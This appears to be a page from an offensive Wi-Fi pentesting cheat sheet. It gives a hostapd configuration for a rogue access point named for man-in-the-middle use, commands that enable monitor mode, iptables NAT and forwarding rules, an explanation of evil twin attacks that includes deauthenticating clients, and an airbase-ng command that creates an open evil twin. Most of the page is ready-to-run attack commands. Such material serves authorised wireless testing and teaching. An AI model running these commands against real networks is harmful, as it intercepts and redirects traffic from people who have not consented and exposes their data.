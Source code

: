 ### hostapd
```bash
apt-get install hostapd
```
- create a config file hostapd.conf
```bash
interface=wlan0
driver=nl80211
ssid=MITIWIFI
hw_mode=g
channel=11
macaddr_acl=0
ignore_broadcast_ssid=0
auth_algs=1
wpa=2
wpa_passphrase=mitmwifi123
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_group_rekey=86400
ieee80211n=1
wme_enabled=1
```
- **Stop annoying processes** , set **monitor mode**, and **start hostapd**:
```bash
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
hostapd ./hostapd.conf
```
- **Forwarding and Redirection**
```bash
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan0 -j ACCEPT
echo 1 > /proc/sys/net/ipv4/ip_forward
```

---

## EVIL-TWIN
```
An evil twin attack is a type Wi-Fi attack that works by taking advantage of the fact that most computers and phones will only see the "name" or ESSID of a wireless network (as the base station is not required to authenticate against the client). This actually makes it very hard to distinguish between networks with the same name and same kind of encryption. In fact, many networks will have several network-extending access points all using the same name to expand access without confusing users.

Due how the implementation of clients work (remember that the 802.11 protocol allows stations to roam freely between access points within the same ESS), it is possible to make a device to change the base station it is connected to. It is possible to do that offering a better signal (which is not always possible) or by blocking the access to the original base station (deauthentication packets, jamming, or some other form of DoS attack).

Notice also that real-world wireless deployments usually have more than a single access point, and these access points are often more powerful and have better line-of-site range due to their placement towards the ceiling. Deauthenticating a single access point usually results in the target roaming towards another valid access point rather than your rogue AP, unless all nearby access points are deauthenticated (loud) or you are very careful with the placement of the rogue AP (difficult).
```
### Creating an Evil-Twin
- You can create a very basic Open Evil Twin (no capabilities to route traffic to Internet) doing:
```bash
airbase-ng -a 00:09:5B:6F:64:1E --essid "Elroy" -c 1 wlan0mon
```